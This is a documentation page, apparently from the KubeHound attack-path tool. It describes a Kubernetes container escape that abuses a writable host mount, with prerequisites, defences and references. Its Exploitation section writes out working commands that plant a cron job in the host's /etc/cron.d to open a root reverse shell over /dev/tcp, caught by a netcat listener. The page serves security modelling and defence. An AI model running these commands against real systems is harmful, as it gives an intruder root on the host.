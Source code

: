 ```yaml
---
title: EXPLOIT_HOST_WRITE
---
```


<!--
id: EXPLOIT_HOST_WRITE
name: "Container escape: Write to sensitive host mount"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# EXPLOIT_HOST_WRITE

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Exploit an arbitrary write from a sensitive host path mounted into the container to gain execution on the host.

## Details

If a sensitive host directory is mounted in a container with write permissions there are a huge variety of techniques to achieve execution within a container. Given the array of techniques available we choose to assume that any writeable mount in a container is exploitable unless it corresponds to an entry in the ["known-good" list](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_write.go#:~:text=SafeWriteMountList) of mounts. For illustration purposes we will consider an escape to host via creating a cron job to launch a reverse shell as the host's superuser if the host `/etc` directory is mounted with write permissions.

## Prerequisites

Execution within a container with a sensitive host directory mounted with write permissions.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/EXPLOIT_HOST_WRITE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks)

## Exploitation

Assuming the `/etc/cron.d` directory or any parent is mounted with write access, we can achieve execution on the host as follows. First, resolve the container ip address:

```bash
CONTAINER_ADDRESS=$(ifconfig eth0  | grep inet | cut -d: -f2 | awk '{ print $2}')
```

Then, create a cronjob to trigger a reverse shell connection from the host to our container:

```bash
echo -n "* * * * * root /bin/bash -c '/bin/bash -c echo \"\"; echo \"hello from host! " > /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo -n "(hostname) " >> /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo "(id)\" >& /dev/tcp/${CONTAINER_ADDRESS}/1337 0>&1'" >> /host-etc/cron.d/breakout
netcat -l -p 1337 2>&1
```

## Defences

### Monitoring

+ Leverage cloud workload security solutions to monitor for malicious activity on the host

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [ExploitHostWrite](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_write.go)

## References:

+ [HackTricks Docker Breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
+ [Atomic Red Team T1611](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1611/T1611.md)

